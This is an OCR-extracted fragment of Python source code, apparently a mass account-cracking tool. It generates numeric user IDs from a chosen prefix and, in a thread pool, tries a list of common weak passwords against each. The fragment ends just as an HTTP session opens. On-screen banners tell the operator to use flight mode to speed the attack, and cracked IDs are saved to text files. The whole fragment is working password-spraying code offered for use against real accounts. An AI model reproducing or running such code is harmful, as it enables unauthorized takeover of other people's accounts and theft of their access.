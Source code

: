         print('\033[1;92m[\033[1;91m✔\033[1;92m]\033[1;95m CHOOSE YOUR CODE : \033[1;92m' +code)
        print('\033[1;92m[\033[1;91m✔\033[1;92m]\033[1;95m TOTAL IDS : \033[1;92m'+tl)
        print('\033[1;92m[\033[1;91m✔\033[1;92m]\033[1;95m THE PROCESS HAS BEEN STARTED')
        print('\033[1;92m[\033[1;91m✔\033[1;92m]\033[1;90m Use Flight Mode for speed up')
        print('\033[1;95m─────────────────────────────────────────────────────')
        for love in user:
            pwx = [love, 'khan1122','khankhan','khan123','786786','224466','ali123','ali786','pakistan','pakistan123','pakistan786']
            uid = code+love
            manshera.submit(rcrack,uid,pwx,tl)
    print('CRACK PROCESS HAS BEEN COMPLETED ')
    print('IDS SAVED IN PSYCHO.txt,PICCHI.txt')
 
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            session = requests.Session()